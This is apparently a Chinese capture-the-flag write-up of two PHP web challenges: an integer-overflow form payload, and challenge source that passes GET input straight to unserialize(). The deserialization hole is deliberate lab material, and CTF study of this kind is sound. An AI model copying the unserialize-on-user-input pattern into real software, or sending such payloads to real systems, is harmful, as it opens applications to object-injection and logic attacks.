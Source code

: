 

## 茶歇区

抓包

没怎么搞懂，看wp说是php整数溢出，



payload

```
a=0&b=0&c=0&d=0&e=999999999999999999&submit=%E5%8D%B7%E4%BA%86%E5%B0%B1%E8%B7%91%EF%BC%81
```







## 小舔田

```
 <?php
include "flag.php";
highlight_file(__FILE__);

class Moon{
    public $name="月亮";
    public function __toString(){
        return $this->name;
    }
    
    public function __wakeup(){
        echo "我是".$this->name."快来赏我";
    }
}

class Ion_Fan_Princess{
    public $nickname="牛夫人";

    public function call(){
        global $flag;
        if ($this->nickname=="小甜甜"){
            echo $flag;
        }else{
            echo "以前陪我看月亮的时候，叫人家小甜甜！现在新人胜旧人，叫人家".$this->nickname."。\n";
            echo "你以为我这么辛苦来这里真的是为了这条臭牛吗?是为了你这个没良心的臭猴子啊!\n";
        }
    }
    
    public function __toString(){
        $this->call();
        return "\t\t\t\t\t\t\t\t\t\t----".$this->nickname;
    }
}

if (isset($_GET['code'])){
    unserialize($_GET['code']);

}else{
    $a=new Ion_Fan_Princess();
    echo $a;
}

```

